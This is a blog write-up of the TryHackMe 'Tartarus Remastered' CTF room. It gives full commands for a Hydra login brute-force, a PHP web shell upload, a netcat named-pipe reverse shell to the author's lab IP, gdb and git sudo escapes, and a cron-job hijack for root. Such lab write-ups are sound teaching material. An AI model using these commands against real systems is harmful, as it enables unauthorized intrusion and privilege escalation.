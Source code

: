 ```yaml
---
title: "Tartarus_writeup"
date: 2020-10-28T10:10:38-04:00
draft: true
toc: true
featured: true
summary: "Welcome to another writeup, this time we hack Tartarus-Remastered another TryHackMe room. Let's see if we get root during the lunch break at work XD"
images:
  - "img/tartarus_cover.jpg"
cover: "img/tartarus_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
  - tartarus
---
```


# Tartarus-Remastered TryHackMe Room

Welcome back! Today I have another writeup. This time I went for a just-released room on TryHackMe called `Tartarus Remastered`. I hope you enjoy it!


- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/gamingserver).
- **PLEASE NOTE:** Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. 


## Getting Started

I'll be using once again `autorecon <IP>` to scan this box. So leave that running or perform manual scans if you'd like. I'm going through this room on my lunch break at work so don't have much time XD.


## Checking Autorecon Results and gaining access.

If we look at Gobuster's results, we see a `robots.txt` file that we can access:

![](https://i.imgur.com/8tlOnnV.png)

If we look at that directory in `disallowed` entry:

![](https://i.imgur.com/k8M3EWs.png)


If we look at the FTP (nmap scan shows anonymous login is enabled), we can see something interesting:

![](https://i.imgur.com/yMT7CDr.png)

There are directories named `...` that we can access and inside there is a file.

If we check that file we see another directory is mentioned:

![](https://i.imgur.com/aD9j2RN.png)

We get a login form. This is getting quite familiar, we can try the same we did for the room called `Hydra`. Check that [here](https://www.tzero86bits.tk/posts/hydra_writeup/).

We need to construct a POST request attack with hydra. 

/sUp3r-s3cr3t

`hydra -l userid -P credentials.txt 10.10.61.206 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect" -V -F -u`

![](https://i.imgur.com/eYR3wxO.png)



We can also let gobuster now we have a new directory that it can explore:

```sh
gobuster dir --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.61.206/sUp3r-s3cr3t/ -x php,txt,html,sh,cgi
```

![](https://i.imgur.com/guZOPm4.png)

If we brute-force the login request we get the following:

![](https://i.imgur.com/DJnKg3T.png)

And if we login we get an upload form:

![](https://i.imgur.com/HqND3cF.png)

We can try to upload a semi-interactive php-bash and see if we can access that:

![](https://i.imgur.com/Ma8sKV5.png)

Now if we navigate back to that `images/uploads/` folder, we see our file is there:

![](https://i.imgur.com/ukMGnE0.png)

If we go ahead and click on that file we get our PHP-Bash working:

![](https://i.imgur.com/ytecqGV.png)

If we navigate to the home folder, we can access `d4rckh` folder and cat out the user flag:

![](https://i.imgur.com/ia7SGaw.png)

Ok so now we need to go get the root flag. Even though the semi-interactive shell we got is fine. I would like to have better access from my own terminal so let's try to get a reverse shell.

We start a `nc -nlvp 2112` in our terminal and then we try to fire a connection in the php-bash file back to our machine:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.34 2112 >/tmp/f`


Now that we have a reverse shell, we can navigate a bit more comfortable. If we take a look at the other folder at the home directory we see another file that mentions `git`.

![](https://i.imgur.com/vCfgrjw.png)

If we run a `sudo -l` we see that the user we have can run `gdb` as sudo. Let's check GTFObins to see if we have a way of exploiting that.

It seems there is a way to get a reverse shell, lets try that:

![](https://i.imgur.com/Bxp6Jwb.png)

Maybe I'm doing something wrong but `gdb` did not work and I still was `www-data` user after trying all the options listed on GTFbins. Let's check if we have any running cron jobs:

![](https://i.imgur.com/mBQUZT2.png)

Indeed we have and, it is a file I saw inside `d4rckh`'s folder. Since that cron job is running as root, we can try to edit it so when it runs it spaws a privileged shell back to us.

But first we really need to get gdb working so we can switch user. The idea here is to impersonate the other user `thirtytwo` and see what he can run as sudo, and if we recall the file we found earlier we know that `d4rckh` fixed the access to git for him. So we can assume `thirtytwo` could have privileged access to git executable.

After checking a while on that gdb binary, it seems we can try it as follows:

`sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex qu`

That seems to work and we are now the expected user which, as we thougth has access to git.

![](https://i.imgur.com/whF3tz3.png)

Let's check back on GTFObins if we have anything on git to get root.

We can try to run `python -c 'import pty;pty.spawn("/bin/bash");'` to get a TTY shell before we try to get root.

NOTE: also run `export TERM=xterm` to get a more responsive terminal that for instance is able to `clear` the screen.

Now let's try some of the commands suggested by GTFObins. If we check the `Sudo` section we get a few to try. The first one does not work at all in this case. Let's check the second:

`sudo git -p help config` and `!/bin/sh`

Still we need to adjust the command a bit, we need to explicitly set the user we want to switch to:

`sudo -u d4rckh git -p help config`

That seems to work and we are now the user `d4rckh`

![](https://i.imgur.com/Vh8mDXQ.png)

Ok now let's check that `cleanup.py` file that's running as a cron job. And see if we can edit it to get us root.

> NOTE: To make sure I don't lose the original file, I ran `cp cleanup.py cleanup.py.bak`

Now let's see if we can edit the file with nano:

Even though we got an error before nano opens, we are able to edit the file. We make the changes to the command being executed so it creates a copy of `bash` with privileges that we can execute later in one of our accessible directories:

![](https://i.imgur.com/sQ9FYjp.png)

We save the file and we just wait, since the file is tied to a cronjob we need to wait for it to get executed:


If you notice the command tells the system to copy bash into a `tmp/rootbash` folder. 

> NOTE: Credits to @ratiros01 on that command, I was just failing at making that work until I came across his idea for that in one of his posts.

Let's navigate to that temp folder and see if we get our bash copied. We do, it worked. Now we need to run that file, however we need to make use of the switch `-p` so the binary would not drop his privileges. Otherwise it would run with the permissions our current user has.

![](https://i.imgur.com/LtTBQvp.png)

It worked great and we are now root!, let's grab that flag and complete the room.


![](https://i.imgur.com/eXiuc6f.png)

I hope you enjoyed this room as much as I did, thanks again to @ratiros01 for his post that helped me when I got stuck.


Happy hacking and thanks for stopping by!

{{< thm_badge >}}




